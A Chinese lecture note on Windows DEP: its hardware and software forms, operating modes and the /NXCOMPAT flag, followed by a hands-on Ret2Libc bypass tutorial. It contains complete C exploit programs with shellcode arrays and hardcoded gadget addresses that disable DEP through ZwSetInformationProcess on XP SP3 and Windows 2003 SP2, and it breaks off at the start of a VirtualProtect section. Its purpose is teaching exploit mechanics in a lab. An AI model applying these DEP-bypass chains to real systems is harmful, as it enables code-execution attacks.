

# 第9讲 windows 安全机制2 

本节主要介绍：
- 数据执行保护机制 DEP

##  数据与程序的分水岭：DEP 

### DEP 机制的保护原理  

溢出攻击的根源在于现代计算机对数据和代码没有明确区分这一先天缺陷，就目前来看重 新去设计计算机体系结构基本上是不可能的，我们只能靠向前兼容的修补来减少溢出带来的损 害，DEP（数据执行保护，Data Execution Prevention）就是用来弥补计算机对数据和代码混淆 这一天然缺陷的。 

DEP 的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入 shellcode 时， 程序会尝试在数据页面上执行指令，此时 CPU 就会抛出异常，而不是去执行恶意指令。如图 12.1.1 所示。 


DEP 的主要作用是阻止数据页（如默认的堆页、各种堆栈页以及内存池页）执行代码。 微软从 Windows XP SP2 开始提供这种技术支持，根据实现的机制不同可分为：
- 软件 DEP （Software DEP）
- 硬件 DEP（Hardware-enforced DEP）。 

软件 DEP 其实就是我们前面介绍的 SafeSEH，它的目的是阻止利用 S.E.H 的攻击，这种机制与 CPU 硬件无关，Windows 利用软件模拟实现 DEP，对操作系统提供一定的保护。现在大家明白为什么在 SafeSEH 的校验过程中会检查异常处理函数是否位于非可执行页上了吧。 硬件 DEP 才是真正意义的 DEP，硬件 DEP 需要 CPU 的支持，AMD 和 Intel 都为此做了设计，AMD 称之为 No-Execute Page-Protection (NX)，Intel 称之为 Execute Disable Bit (XD) ，两者功能及工作原理在本质上是相同的。 

操作系统通过设置内存页的 NX/XD 属性标记，来指明不能从该内存执行代码。为了实现这个功能，需要在内存的页面表（Page Table）中加入一个特殊的标识位（NX/XD）来标识是否允许在该页上执行指令。当该标识位设置为 0 里表示这个页面允许执行指令，设置为 1 时表 示该页面不允许执行指令。 

由于软件 DEP 就是传说中的 SafeSEH，关于 SafeSEH 的突破前面我们已经介绍过，所以在这一节中我们只对硬件 DEP 进行讨论和分析。 大家可以通过如下方法检查 CPU 是否支持硬件 DEP，右键单击桌面上的“我的电脑”图标，选择“属性”，在打开的“系统属性”窗口中点击“高级”选项卡。在“高级”选项卡页面中的“性能”下单击“设置”打开“性能选项”页。单击“数据执行保护”选项卡，在该页 面中我们可确认自己计算机的 CPU 是否支持 DEP。如果 CPU 不支持硬件 DEP 该页面底部会 有如下类似提示：“您的计算机的处理器不支持基于硬件的 DEP。但是，Windows 可以使用 DEP 软件帮助保护免受某些类型的攻击”。如图 12.1.2 所示。 


根据启动参数的不同，DEP 工作状态可以分为四种。 
- （1）Optin：默认仅将 DEP 保护应用于 Windows 系统组件和服务，对于其他程序不予保护， 但用户可以通过应用程序兼容性工具(ACT，Application Compatibility Toolkit)为选定的程序启用 DEP，在 Vista 下边经过/NXcompat 选项编译过的程序将自动应用 DEP。这种模式可以被应用程序动态关闭，它多用于普通用户版的操作系统，如 Windows XP、Windows Vista、Windows7。
- （2）Optout：为排除列表程序外的所有程序和服务启用 DEP，用户可以手动在排除列表中指定不启用 DEP 保护的程序和服务。这种模式可以被应用程序动态关闭，它多用于服务器版的操作系统，如 Windows 2003、Windows 2008。
- （3）AlwaysOn：对所有进程启用 DEP 的保护，不存在排除列表，在这种模式下，DEP 不可以被关闭，目前只有在 64 位的操作系统上才工作在 AlwaysOn 模式。 
- （4）AlwaysOff：对所有进程都禁用 DEP，这种模式下，DEP 也不能被动态开启，这种模式一般只有在某种特定场合才使用，如 DEP 干扰到程序的正常运行。 我们可以通过切换图 12.1.2 中的复选框切换 Optin 和 Optout 两种模式。还可以通过修改 c:\boot.ini 中的/noexecute 启动项的值来控制 DEP 的工作模式。如图 12.1.3 所示，DEP 在该操作系统上的工作模式为 Optout。  


介绍完 DEP 的工作原理及状态后，我们来看一个和 DEP 密切相关的程序链接选项： /NXCOMPAT。/NXCOMPAT 是 Visual Studio 2005 及后续版本中引入一个链接选项，默认情况下是开启的。在本书中使用的 Visual Studio 2008 (VS 9.0)中，可以在通过菜单中的 Project→ project Properties →Configuration Properties→Linker→Advanced→Data Execution Prevention (DEP)中选择是不是使用/NXCOMPAT 编译程序，如图 12.1.4 所示。 


采用/NXCOMPAT编译的程序会在文件的PE头中设置IMAGE_DLLCHARACTERISTICS_ NX_COMPAT 标识，该标识通过结构体 IMAGE_OPTIONAL_HEADER 中的 DllCharacteristics 变量进行体现，当 DllCharacteristics 设置为 0x0100 表示该程序采用了/NXCOMPAT 编译。

关于结构体 IMAGE_OPTIONAL_HEADER 的详细说明大家可以查阅 MSDN 相关资料，在这我们就不过多讨论了。 经过/NXCOMPAT编译的程序有什么好处呢？通过前面的介绍我们知道用户版的操作系统中 DEP 一般工作在 Optin 状态，此时 DEP 只保护系统核心进程，而对于普通的程序是没有保护的。虽然用户可以通过工具自行添加，但这无形中增高了安全的门槛，所以微软推出了 /NXCOMPAT 编译选项。经过/NXCOMPAT 编译的程序在 Windows vista 及后续版本的操作系统上会自动启用 DEP 保护。 

DEP 针对溢出攻击的本源，完善了内存管理机制。通过将内存页设置为不可执行状态，来阻止堆栈中 shellcode 的执行，这种釜底抽薪的机制给缓冲溢出带来了前所未有的挑战。这也是迄今为止在本书中我们遇到的有力的保护机制，它能够彻底阻止缓冲区溢出攻击么？答案是否定的。 

如同前面介绍的安全机制一样，DEP 也有着自身的局限性。 
- 首先，硬件 DEP 需要 CPU 的支持，但并不是所有的 CPU 都提供了硬件 DEP 的支持，在一些比较老的 CPU 上边 DEP 是无法发挥作用的。 
- 其次，由于兼容性的原因 Windows 不能对所有进程开启 DEP 保护，否则可能会出现异常。 例如一些第三方的插件 DLL，由于无法确认其是否支持 DEP，对涉及这些 DLL 的程序不敢贸然开启 DEP 保护。
- 再有就是使用 ATL 7.1 或者以前版本的程序需要在数据页面上产生可以执行代码，这种情况就不能开启 DEP 保护，否则程序会出现异常。 
- 再次，/NXCOMPAT 编译选项，或者是 IMAGE_DLLCHARACTERISTICS_NX_COMPAT 的设置，只对 Windows Vista 以上的系统有效。在以前的系统上，如 Windows XP SP3 等，这个设置会被忽略。也就是说，即使采用了该链接选项的程序在一些操作系统上也不会自动启用 DEP 保护。 
- 最后，当 DEP 工作在主要的两种状态 Optin 和 Optout 下时，DEP 是可以被动态关闭和开启的，这就说明操作系统提供了某些 API 函数来控制 DEP 的状态。同样很不幸的是早期的操作系统中对这些 API 函数的调用没有任何限制，所有的进程都可以调用这些 API 函数，这就埋下了很大的安全隐患，也为我们突破 DEP 提供了一条道路。 

### 攻击未启用 DEP 的程序  
其实这种方法不能称之为“绕过”DEP，因为 DEP 根本就没有发挥作用，在这提出这种方法的原因是要说明并不是只要 CPU 和操作系统支持 DEP，所有的程序就都安全了。 就像我们前面说的那样，由于微软要考虑兼容性的问题，所以不能对所有进程强制开启 DEP（64 位下的 AlwaysOn 除外）。

DEP 保护对象是进程级的，当某个进程的加载模块中只要有一个模块不支持 DEP，这个进程就不能贸然开启 DEP，否则可能会发生异常。这样的程序在Windows 下还是有很多的，即使在新的 Win7 操作系统下依然有很多的程序没有启用 DEP（如 图 12.2.1），所以想办法攻击未启用 DEP 保护的程序也不失为一种简单有效的办法。 


由于这种攻击手段不与 DEP 有着正面冲突，只是一种普通的溢出攻击，所以在这我们就 不过多讨论了，权当为大家提供一种思路。 

###  利用 Ret2Libc 挑战 DEP 
在 DEP 保护下溢出失败的根本原因是 DEP 检测到程序转到非可执行页执行指令了，如果 我们让程序跳转到一个已经存在的系统函数中结果会是怎样的呢？

已经存在的系统函数必然存在于可执行页上，所以此时 DEP 是不会拦截的，Ret2libc 攻击的原理也正是基于此的。 

Ret2libc 是 Return-to-libc 简写，由于 DEP 不允许我们直接到非可执行页执行指令，我们就 需要在其他可执行的位置找到符合我们要求的指令，让这条指令来替我们工作，为了能够控制程序流程，在这条指令执行后，我们还需要一个返回指令，以便收回程序的控制权，然后继续 下一步操作，整体流程如图 12.3.1 所示。 


简言之，只要为 shellcode 中的每条指令都在代码区找到一条替代指令，就可以完成 exploit 想要的功能了。理论上说，这种方法是可行的，但是实际上操作难度极大。主要有以下几点问题：
- shellcode 中的每条指令是否都能在代码区找到替代指令？
- 就算所有替代指令都找好了，如何保证每条指令的地址都不包含 0x00 截断字符呢？
- 栈帧如何去布置呢？
- 我们不断使用替代指令执行操作，然后通过 retn 指令收回控制权，不停地跳来跳去，稍有不慎就跳沟里去了。 

为此，我们在继承这种思想的大前提下，介绍三种经过改进的、相对比较有效的绕过 DEP 的 exploit 方法。 
- （1）通过跳转到 ZwSetInformationProcess 函数将 DEP 关闭后再转入 shellcode 执行。 
- （2）通过跳转到 VirtualProtect 函数来将 shellcode 所在内存页设置为可执行状态，然后再 转入 shellcode 执行。 
- （3）通过跳转到 VirtualAlloc 函数开辟一段具有执行权限的内存空间，然后将 shellcode 复制到这段内存中执行。 


#### Ret2Libc 实战之利用 ZwSetInformationProcess 

既然 DEP 这么碍事，不如我们就来个彻底的，直接将进程的 DEP 保护关闭。

我们先来了解一个重要的结构和一个重要的函数。 一个进程的 DEP 设置标识保存在 KPROCESS 结构中的 _KEXECUTE_OPTIONS 上，而这个标识可以通过API函数 ZwQueryInformationProcess 和 ZwSetInformationProcess 进行查询和修改。 

题外话：在有些资料中将这些函数称为 NtQueryInformationProcess 和 NtSetInformation Process，在 Ntdll.dll 中 Nt** 函数和 Zw** 函数功能是完全一样的，本书中我们统一称 之为 Zw**。 

我们首先来看一下_KEXECUTE_OPTIONS 的结构。 

```C++
typedef struct _KEXECUTE_OPTIONS
{
    ULONG ExecuteDisable: 1; //1 表示 1 bit
    ULONG ExecuteEnable: 1;
    ULONG DisableThunkEmulation: 1;
    ULONG Permanent: 1;
    ULONG ExecuteDispatchEnable: 1;
    ULONG ImageDispatchEnable: 1;
    ULONG Spare: 2;
} KEXECUTE_OPTIONS, *PKEXECUTE_OPTIONS;
```


这些标识位中前 4 个 bit 与 DEP 相关：
- 当前进程 DEP 开启时 ExecuteDisable 位被置 1；
- 当进程DEP关闭时ExecuteEnable位被置1；
- DisableThunkEmulation 是为了兼容 ATL 程序设置的；
- Permanent 被置 1 后表示这些标志都不能再被修改。

真正影响 DEP 状态是前两位，所以我们只要将_KEXECUTE_OPTIONS 的值设置为 0x02（二进制为 00000010）就可以将 ExecuteEnable 置为 1。

接下来我们来看看关键函数 NtSetInformationProcess： 

```C++
NTSTATUS WINAPI ZwQueryInformationProcess(
  _In_      HANDLE           ProcessHandle,
  _In_      PROCESSINFOCLASS ProcessInformationClass,
  _Out_     PVOID            ProcessInformation,
  _In_      ULONG            ProcessInformationLength,
  _Out_opt_ PULONG           ReturnLength
);
```

说明：
- 第一个参数为进程的句柄，设置为−1 的时候表示为当前进程；
- 第二个参数为信息类；
- 第三个参数可以用来设置_KEXECUTE_OPTIONS；
- 第四个参数为第三个参数的长度。


Skape 和 Skywing 在他们的论文 Bypassing Windows Hardware-Enforced DEP 中给出了关闭 DEP 的参数设置。 

```
ULONG ExecuteFlags = MEM_EXECUTE_OPTION_ENABLE; 
ZwSetInformationProcess(    
    NtCurrentProcess(),   // (HANDLE)-1     
    ProcessExecuteFlags,   // 0x22 
    &ExecuteFlags,   // ptr to 0x2    
    sizeof(ExecuteFlags));  // 0x4 
```

所以我们只要构造一个的合乎要求的栈帧，然后调用这个函数就可以为进程关闭 DEP 了。还有一个小问题，函数的参数中包含着 0x00 这样的截断字符，这会造成字符串复制的时候被截断。既然自己构造参数会出现问题，那么我们可不可以在系统中寻找已经构造好的参数呢？

如果系统中存在一处关闭进程 DEP 的调用，我们就可直接利用它构造参数来关闭进程 的 DEP 了。 

在这微软的兼容性考虑又惹祸了，如果一个进程的 Permanent 位没有设置，当它加载 DLL 时，系统就会对这个 DLL 进行 DEP 兼容性检查，当存在兼容性问题时进程的 DEP 就会被关闭。 为此微软设立了LdrpCheckNXCompatibility 函数，当符合以下条件之一时进程的DEP会被关闭：

- （1）当 DLL 受 SafeDisc 版权保护系统保护时； 
- （2）当 DLL 包含有.aspcak、.pcle、.sforce 等字节时； 
- （3）Windows Vista 下面当 DLL 包含在注册表“HKEY_LOCAL_MACHINE\SOFTWARE \Microsoft\ Windows NT\CurrentVersion\Image File Execution Options\DllNXOptions”键下边标识出不需要启动 DEP 的模块时。 

如果我们能够模拟其中一种情况，结果会是怎么样的呢？答案是进程的 DEP 被关闭！

这里选择第一个条件进行尝试。我们来看一下 Windows XP SP3 下 LdrpCheckNXCompatibility 关 闭 DEP 的具体流程，以 SafeDisc 为例。如图 12.3.2 所示。 


现在我们知道 LdrpCheckNXCompatibility 关闭 DEP 的流程了，我们开始尝试模拟这个过程，我们将从 0x7C93CD24 入手关闭 DEP，这个地址可以通过 OllyFindAddr 插件中的 Disable DEP→Disable DEP <=XP SP3 来搜索，如图 12.3.3 所示。 
 


由于只有``` CMP AL ，1``` 成立的情况下程序才能继续执行，所以我们需要一个指令将 AL 修 改为 1。将 AL 修改为 1 后我们让程序转到 0x7C93CD24 执行，在执行 0x7C93CD6F 处的 RETN 4 时 DEP 已经关闭，此时如果我们可以在让程序在 RETN 到一个我们精心构造的指令地址上， 就有可能转入 shellcode 中执行了。我们通过以下代码来分析此流程的具体过程。 

```c++
#include<stdlib.h> 
#include<string.h> 
#include<stdio.h> 
#include<windows.h> 
#include<tchar.h>

char shellcode[]= 
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53" 
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B" 
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" 
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59" 
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A" 
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75" 
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03" 
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB" 
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" 
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" 
    "\x90\x90\x90\x90" 
	"\x52\xE2\x92\x7C"//MOV EAX,1 RETN 地址 
    "\x85\x8B\x1D\x5D"//修正 EBP 
    "\x19\x4A\x97\x7C"//增大 ESP 
    "\xB4\xC1\xC5\x7D"//jmp esp 
    "\x24\xCD\x93\x7C"//关闭 DEP 代码的起始位置 
    "\xE9\x33\xFF\xFF"//回跳指令 "\xFF\x90\x90\x90" 
    ; 

void test() {    
    char tt[176];    
    strcpy(tt,shellcode); 
} 

int main() 
{    
    HINSTANCE hInst = LoadLibrary(_T("shell32.dll"));    
    char temp[200];    
    test();    
    return 0; 
} 
```

对实验思路和代码简要解释如下：
- （1）为了更直观地反映绕过 DEP 的过程，我们在本次实验中不启用 GS 和 SafeSEH。
- （2）函数 test 存在一个典型的溢出，通过向 str 复制超长字符串造成 str 溢出，进而覆盖函数返回地址。 
- （3）将函数的返回地址覆盖为类似```MOV AL,1  retn```的指令，在将AL置1后转入0x7C93CD24 关闭 DEP。 
- （4）DEP 关闭后 shellcode 就可以正常执行了。 

实验环境如表 12-3-1 所示:
- 操作系统 Window XP SP3  DEP 状态 Optout  
- 编译器 VC++ 6.0  ,即无GS。
- 编译选项 禁用优化选项  
- build 版本 release 版本 

通过前面的分析，我们需要先找到类似 ```MOV AL,1  retn``` 的指令，即可以将 AL 置 1，又可以通过 retn 收回程序控制权。OllyFindAddr 插件的 Disable DEP→Disable DEP <=XP SP3 搜索结果的 Step2 部分就是符合要求的指令。

搜索结果如图 12.3.4 所示。 


为了避免执行 strcpy 时 shellcode 被截断，我们需要选择一个不包含 0x00 的地址，本次实验中我们使用 0x7C92E252 覆盖函数的返回地址。关于覆盖掉函数返回地址所需字符串长度的 计算我们不再讨论，大家可以根据我们前面介绍的方法来自行计算，在本次实验中我们需要 184 个字节可以覆盖掉函数返回地址，所以我们在 181~184 字节处放上 0x7C92E252，shellcode 内 容如下所示。 

然后编译程序，用 OllyDbg 加载调试程序。在 0x7C92E257，即 MOV EAX,1 后边的 RETN 指令处暂停程序。观察堆栈可以看到此时 ESP 指向 test 函数返回地址的下方，而这个 ESP 指向的内存空间存放的值将是 RETN 指令要跳到的地址，如图 12.3.5 所示。 


所以我们需要在这个位置放上 0x7C93CD24 以便让程序转入关闭 DEP 流程，我们为 shellcode 添加 4 个字节，并放置 0x7C93CD24，如下所示。 

```
charshellcode[]= 
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
    "……" 
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x52\xE2\x92\x7C"//MOV EAX,1 RETN 地址 
    "\x24\xCD\x93\x7C"//关闭 DEP 代码的起始位置 ; 
```

重新编译程序后，用 OllyDbg 重新加载程序，在 0x7C93CD6F，即关闭 DEP 后的 RETN 4 处下断点，然后让程序直接运行。但程序并没有像我们想象的那样在 0x7C93CD6F 处中断，而 是出现了异常。如图 12.3.6 所示，程序现在需要对 EBP-4 位置写入数据，但 EBP 在溢出的时 候被破坏了，目前 EBP-4 的位置并不可以写入，所以程序出现了写入异常，所以我们现在的 shellcode 布局是行不通的，在转入 0x7C93CD24 前我们需要将 EBP 指向一个可写的位置。 


我们可以通过类似``` PUSH ESP POP EBP RETN``` 的指令将 EBP 定位到一个可写的位置，依然请出我们的 OllyFindAddr 插件，我们可以在 Disable DEP <=XP SP3 搜索结果的 Setp3 部分查看 当前内存中所有符合条件的指令，如图 12.3.7 所示。 
 


指令虽然找到了不少，但符合条件的不多。首先回顾一下图 12.3.5 中各寄存器的状态，所有的寄存器中只有 ESP 指向的位置可以写入，所以现在我们只能选择 ```PUSH ESP POP EBP RETN``` 指令序列了。

现在还有一个严重的问题需要解决，我们直接将 ESP 的值赋给 EBP 返回后，ESP 相对 EBP 位于高址位置，当有入栈操作时 EBP-4 处的值可能会被冲刷掉，进而影响传入 ZwSetInformationProcess 的参数，造成 DEP 关闭失败。 我们不妨先使用 0x5D1D8B85 处的 ```PUSH ESP POP EBP RETN 04``` 指令来修正 EBP，然后再根据堆栈情况想办法消除 EBP-4 被冲刷的影响。先对 shellcode 重新布局，在转入关闭 DEP 流程前加入修正 EBP 指令，代码如下所示。 

```
char shellcode[]= 
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
    "……" 
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90" 
    "\x52\xE2\x92\x7C" //MOV EAX,1 RETN 地址 
    "\x85\x8B\x1D\x5D" //修正 EBP 
    "\x24\xCD\x93\x7C" //关闭 DEP 代码的起始位置 
    ;
```

重新编译程序后用 OllyDbg 加载，在 0x7C95683B 处，即 CALL ZwSetInformationProcess 时下断点，待程序中断后观察堆栈情况。如图 12.3.8 所示，EBP-4 中的内容已经被冲刷掉，内容已经被修改为 0x22，根据_KEXECUTE_OPTIONS 结构我们知道 DEP 只和结构中的前 4 位有关，只要前 4 位为二进制代码为 0010 就可关闭 DEP，而 0x22（00100010）刚刚符合这个要求，所以用 0x22 冲刷掉 EBP-4 处的值还是可以关闭 DEP 的。 


虽然现在我们已经关闭了 DEP，但是我们失去了进程的控制权。我们再来看看关闭 DEP 后程序返回时的堆栈情况：按 F8 键单步运行程序，在 0x7C93CD6F 处，即 RETN 4 处暂停， 观察堆栈情况。如图 12.3.9 所示，ESP 指向 0x0012FEBC，大家看这个 0x00000004 是不是很眼 熟？这就是关闭 DEP 时的 PUSH 4 操作的结果，这个位置也被冲刷了！现在有家回不去，所以 我们不能简单地在修正 EBP 后直接关闭 DEP，还需要对 ESP 或者 EBP 进行调整。 


一般来说当ESP值小于EBP时，防止入栈时破坏当前栈内内容的调整方法不外乎减小ESP 和增大 EBP，由于本次实验中我们的 shellcode 位于内存低址，所以减小 ESP 可能会破坏 shellcode，而增大 EBP 的指令在本次实验中竟然找不到。一个变通的方法是增大 ESP 到一个安全的位置，让 EBP 和 ESP 之间的空间足够大，这样关闭 DEP 过程中的压栈操作就不会冲刷 到 EBP 的范围内了。 我们可以使用带有偏移量的 RETN 指令来达到增大 ESP 的目的，如 RETN 0x28 等指令可以执行RETN指令后再将ESP增加0x28个字节。我们可以通过OllyFindAddr插件中的Overflow return address-> POP RETN+N 选项来查找相关指令，查找部分结果如图 12.3.10 所示。 


在搜索结果中选取指令时只有一个条件：不能对 ESP 和 EBP 有直接操作。否则我们会失 去对程序的控制权。在这我们选择 0x7C974A19 处的 RETN 0x28 指令来增大 ESP。我们对 shellcode 重新布局，在关闭 DEP 前加入增大 ESP 指令地址。需要注意的是修正 EBP 指令返回 时带有的偏移量会影响后续指令，所以我们在布置 shellcode 的时要加入相应的填充。 

```c++

charshellcode[]= 
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
"……" 
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90" 
"\x52\xE2\x92\x7C" //MOV EAX,1 RETN 地址 
"\x85\x8B\x1D\x5D" //修正 EBP 
"\x19\x4A\x97\x7C" //增大 ESP 
"\x90\x90\x90\x90" //jmp esp
"\x24\xCD\x93\x7C" //关闭 DEP 代码的起始位置 ;
```

我们依然在 0x7C93CD6F 处中断程序，注意千万不要在程序刚加载完就在 0x7C93CD6F 下 断点，不然您会被中断到崩溃。我们建议您先在 0x7C95683B 处，即 CALL ZwSetInformationProcess 时下断点，然后单步运行到 0x7C93CD6F，堆栈情况如图 12.3.11 所示。


可以看到，增大 ESP 之后我们的关键数据都没有被破坏。执行完 RETN 0x04 后 ESP 将指 向 0x0012FEC4，所以我们只要在 0x0012FEBC 放置一条 JMP ESP 指令就可让程序转入堆栈执 行指令了。大家可以通过 OllyFindAddr 插件中的 Overflow return address→Find CALL/JMP ESP 来搜索符合要求的指令，部分搜索结果如图 12.3.12 所示。 


本次实验我们选择 0x7DC5C1B4 处的 JMP ESP，然后我在 0x0012FEC4 处放置一个长跳指 令，让程序跳转到 shellcode 的起始位置来执行 shellcode，根据图 12.3.11 中的内存状态，可以 计算出 0x0012FEC4 距离 shellcode 起始位置有 200 个字节，所以跳转指令需要回调 205 个字节 （200+5 字节跳转指令长度）。分析结束，我们开始布置 shellcode，shellcode 布局如图 12.3.13 所示。 


代码如下所示。 
```c++
charshellcode[]= "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 

"……" "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90" \
"\x52\xE2\x92\x7C" //MOV EAX,1 RETN 地址 
"\x85\x8B\x1D\x5D" //修正 EBP 
"\x19\x4A\x97\x7C" //增大 ESP 
"\xB4\xC1\xC5\x7D" //jmp esp 
"\x24\xCD\x93\x7C" //关闭 DEP 代码的起始位置 
"\xE9\x33\xFF\xFF" //回跳指令 
"\xFF\x90\x90\x90" 
```

按照图 12.3.13 中布局布置好 shellcode 后将程序重新编译，用 OllyDbg 加载程序，我们建 议您在 0x7C93CD6F 处下断点，待程序中断后，我们按 F8 键单步运行程序，并注意各指令对 堆栈及程序流程的影响，理解这种 shellcode 的布置思路。执行完 JMP ESP 后就可以看到程序 转入 shellcode，如图 12.3.14 所示。 


继续运行程序就可以看到熟悉的对话框。 

补充一点，微软在 Windows 2003 SP2 以后对 LdrpCheckNXCompatibility 函数进行了少许 修改，对我们影响大的是该函数在执行过程中会对 ESI 指向的内存附近进行操作，如图 12.3.16 所示。 这就要保证 ESI 指向的内存为可写内存，前边我们已经介绍过了调整 EBP 的方法，大家可以利用类似的指令如 ```push esp pop esi retn``` 来调整 ESI，这些指令显示在 OllyFindAddr 插件中 Disable DEP→Disable DEP >=2003 SP2 搜索结果的 step4 部分。 

但这些指令不是很好找到的，这里介绍一种变通的方法。 
- （1）找到 pop eax retn 指令，并让程序转入该位置执行。 
- （2）找到一条 pop esi retn 的指令，并保证在执行（1）中 pop eax 时它的地址位于栈顶，这样就可以把该地址放到 eax 中。 
- （3）找到 push esp jmp eax 指令，并转入执行。 这样就相当于执行了 push esp pop esi retn，esi 被指到了可写位置。

下边我们给出一种可以 在 Windows 2003 SP2 下边成功溢出的代码，大家可以自行调试，感受一下跳板执行选取和 shellcode 布局的思路。代码运行环境为 Windows 2003 SP2 中文版，代码中的各跳板地址可能 需要重新调试。 

```c++

#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h> 

charshellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xE9\x77\xBE\x77" //修正 EBP
"\x81\x71\xBA\x7C" //pop eax retn
"\x0A\x1A\xBF\x7C" //pop pop pop retn
"\x3D\x68\xBE\x7C" //pop esi retn
"\xBF\x7D\xC9\x77" //push esp jmp eax
"\x9B\xF4\x87\x7C" //retn 0x30
"\x17\xF5\x96\x7C" //关闭 DEP 代码的起始位置
"\x23\x1E\x1A\x7D" //jmp esp
"\xE9\x27\xFF\xFF" //跳转到 shellcode 起始地址
"\xFF\x90\x90\x90"
;
voidtest()
{
 chartt[176];
 strcpy(tt,shellcode);
}
intmain()
{
 HINSTANCEhInst = LoadLibrary("shell32.dll");
 chartemp[200];
 test();
return 0;
} 
```

#### Ret2Libc 实战之利用 VirtualProtect

在 DEP 的四种工作模式中，Optout 和 AlwaysON 模式下所有进程是默认开启 DEP，这时候如果一个程序自身偶尔需要从堆栈中取指令，则会发生错误。为了解决这个问题微软提供了修改内存属性的 VirtualProtect 函数，该函数位于 kernel32.dll 中，通过该函数用户可以修改指定内存的属性，包括是否可执行属性。因此只要我们在栈帧中布置好合适的参数，并让程序转
入 VirtualProtect 函数执行，就可以将 shellcode 所在内存设置为可执行状态，进而绕过 DEP。

首先我们来看看 MSDN 上对 VirtualProtect 函数的说明。

```c++
BOOL VirtualProtect(
 LPVOID lpAddress,
 DWORD dwSize,
 DWORD flNewProtect,
 PDWORD lpflOldProtect
);
```

各参数的意义为：
